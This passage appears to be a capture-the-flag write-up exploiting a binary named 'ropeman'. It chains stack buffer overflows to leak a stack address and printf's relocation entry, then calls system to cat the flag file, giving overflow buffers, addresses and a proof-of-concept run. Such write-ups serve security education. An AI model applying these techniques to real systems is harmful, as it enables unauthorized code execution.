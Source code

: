 ### Leak stack location

We saw that a function will do it for us. However, we must keep the same
connection for all 3 phases. That means we can't just redirect the flow to
`fcn.print_memory_info`. We also need to redirect it back to the normal flow
of the program, without any segmentation faults.

We can redirect to the beginning of the function `fcn.replay_menu` to be able
to exploit the vulnerability once again. The buffer to send for this phase is:
```python
"A" * 0x24 + pack('<II', 0x08048ae4, 0x08049b2a)
```

`0x08048ae4` is the address of `fcn.print_memory_info` and `0x08049b2a` is the
address of `fcn.replay_menu`.

### Leak printf location
The relocation entry of `printf` is located at `0x08053008`:
```bash
$ readelf -r ropeman | grep ' printf'
08053008  00000307 R_386_JUMP_SLOT   00000000   printf
```

So, to leak the relocation entry, we can use `printf` itself. We can use the
format string `Error : Failed to open input directory - %s` at `0x080513c8`.

The buffer for this phase is thus:
```python
"A" * 0x24 + pack('<IIII', 0x08048800, 0x08049b2a, 0x080513c8, 0x08053008)
```

`0x08048800` is the address of `printf` PLT entry.

### Call system
This part may seems easy, but there are some aspects to consider.

First, the command to run must be located in the stack **after** the address
of `system` and its arguments. This is a problem because of the limitation of
the length of the buffer.

Because `fcn.read_string` will only read at most `0x3c` characters from
stdin and due to the position of `choice_char` in the stack frame (at
`ebp - 0x20`), we can't store a complete *cat* command. However, we can use
a wildcard to complete the filename for us. The command will thus looks like
that:
```bash
cat kDUsa2*
```
6 characters is usually enough to get only one file.

### All in one

The script [poc.py][poc] sends the first 2 buffers to extract both an address
in the stack and the address of `printf`. From the `printf` address, the one of
`system` is computed. From the stack address, we can compute the address of the
*cat* command string, injected by the third overflow.

We finally get the *flag* file dumped and we only have to extract the flag from
the status field.

```bash
$ ./poc.py 192.168.56.101 20129 kDUsa2IORv7TbZDh3jyx
Stack address: 0xffdff93c
Printf address: 0xf7636280
exec address: 0xf7629190
FLGsb2uIF1Tvc1OG
```


[poc]: poc.py
[r2]: radare2/ropeman
